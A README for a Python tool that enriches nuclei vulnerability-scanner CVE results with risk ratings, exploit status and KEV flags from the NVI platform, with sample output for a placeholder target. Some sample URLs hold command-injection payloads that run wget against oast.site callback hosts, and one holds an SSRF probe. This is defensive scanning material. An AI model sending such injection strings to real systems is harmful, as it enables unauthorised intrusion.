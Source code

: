 # nuclei-nvi
Enriches nuclei CVE results with vulnerability intel from NVI platform - https://www.northinfosec.com/ 

Simple usage:

nuclei -target http://sample.nuclei-target.com --silent | python3  nuclei-nvi.py  

----------------------------------------

Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/localJob.php?session=fail;wget+http://cqqf5fng4vbb67d6ath09hcfohi51hmyx.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2016-1555
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/boardDataWW.php
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2017-9506
Category: http
Nuclei rating: medium
URL: http://sample.nuclei-target.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://cqqf5fng4vbb67d6ath059tkk51qewsbf.oast.site
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2017-3506
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/wls-wsat/RegistrationRequesterPortType
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/pre_connect_check.php?auth_name=fail;wget+http://cqqf5fng4vbb67d6ath05dc5mwird8dcc.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2018-16167
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/upload
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2019-10758
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/checkValid
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2019-2616
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/xmlpserver/ReportTemplateService.xls
Intel: NVI risk_rating => Critical | Public exploit => Weaponized | Ransomware => No | kev => Yes 

----------------------------------------


